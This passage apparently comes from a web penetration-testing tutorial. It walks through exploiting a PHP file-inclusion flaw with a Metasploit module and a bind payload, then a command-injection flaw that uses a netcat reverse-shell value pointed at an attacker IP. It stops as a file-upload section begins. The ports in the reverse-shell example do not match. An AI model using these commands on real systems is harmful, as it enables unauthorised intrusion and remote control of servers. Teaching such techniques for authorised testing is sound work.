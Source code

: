 ```
msf5 > use exploit/unix/webapp/php_include
msf5 exploit(unix/webapp/php_include) > show options
```

It will give options to set, you need to set only a few of them which are required



```
msf5 exploit(unix/webapp/php_include) > set path vuln.php?file=
path => vuln.php?file=
msf5 exploit(unix/webapp/php_include) > set rhost 10.10.10.123
rhost => 10.10.10.123
msf5 exploit(unix/webapp/php_include) > set rport 443
rport => 443
msf5 exploit(unix/webapp/php_include) > show payloads
msf5 exploit(unix/webapp/php_include) > set payload php/bind_php
payload => php/bind_php
msf5 exploit(unix/webapp/php_include) > run
```

Boom, you will get meterpreter shell instantly.


**Exploiting Command injection**

Command injection is the vulnerability, that uses user input to execute arbitrary commands on the webserver.  It can also execute the attacker's payload on the host system.



In previous we have found command injection on the target web application, now we will exploit it and get a reverse shell.

The vulnerable input field is taking IP addresses as input to test their speed, so we will exploit this functionality. 

we will first start Netcat listener in attackers system

In the attacker's machine
```
# nc -lvp 1337
```

In target application's input field
```
& nc <attacker IP> 4444 -e /bin/bash
```
 And you will get a reverse shell of the target system.
 
 
 
 
**Exploiting File Upload Vulnerability**
 
The Unrestricted file upload vulnerability allows an attacker to upload his malicious file on the target web server and compromise target in the attacker's desired way.


The reason behind it is not implementing restrictions on files uploaded by the user.

In previous phases, we have found Unrestricted file upload vulnerability on the target web application.
